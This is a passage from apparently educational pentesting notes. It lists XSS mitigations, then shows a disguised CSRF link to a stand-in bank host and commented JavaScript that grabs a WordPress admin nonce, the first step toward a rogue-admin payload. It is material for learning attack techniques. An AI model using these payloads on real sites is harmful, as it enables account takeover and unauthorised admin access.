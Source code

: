 
### Mitigation

- Input validation: Ensure that input is what you expect. For example, a field expecting a number doesn't need to accept letters or special characters.
- Output encoding: Whenever output is generated dynamically and includes some form of user input, ensure it's properly encoded.
- Use security headers: For example, the Content Security Policy (CSP) header can significantly reduce the risk of XSS attacks.
- Use HttpOnly cookies: This attribute can prevent access to cookie values via JavaScript.

### Priv Esc via XSS

We could leverage our XSS to steal cookies1 and session information if the application uses an insecure session management configuration. If we can steal an authenticated user's cookie, we could masquerade as that user within the target web site.

For instance, we could craft a JavaScript function that adds another WordPress administrative account, so that once the real administrator executes our injected code, the function will execute behind the scenes.

In order to succeed with our attack angle, we need to cover another web application attack class.

To develop this attack, we'll build a similar scenario as depicted by Shift8.5 First, we'll create a JS function that fetches the WordPress admin nonce.6

The nonce is a server-generated token that is included in each HTTP request to add randomness and prevent Cross-Site-Request-Forgery (CSRF)7 attacks.

A CSRF attack occurs via social engineering in which the victim clicks on a malicious link that performs a preconfigured action on behalf of the user.

The malicious link could be disguised by an apparently-harmless description, often luring the victim to click on it.

```html
<a href="http://fakecryptobank.com/send_btc?account=ATTACKER&amount=100000"">Check out these awesome cat memes!</a>
```

To gather a nonce we could do something like this:

```javascript
// Create a new XMLHttpRequest object for making HTTP requests from JavaScript
var ajaxRequest = new XMLHttpRequest();

// Define the URL for the HTTP request. In this case, we're targeting the WordPress admin page for creating a new user
var requestURL = "/wp-admin/user-new.php";

// Create a regular expression that matches a certain pattern in the response text.
// This pattern is looking for the `ser" value` attribute which typically holds the nonce (number used once) value in WordPress admin forms
var nonceRegex = /ser" value="([^"]*?)"/g;

// Initialize a request. This is using "GET" as the method, the previously defined URL, and false for synchronous request
ajaxRequest.open("GET", requestURL, false);

// Send the request to the server
ajaxRequest.send();

// Use the regular expression to find a match in the response text from the server
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);

// If a match was found, it will be in the first index of the match array. This is the nonce value.
var nonce = nonceMatch[1];

```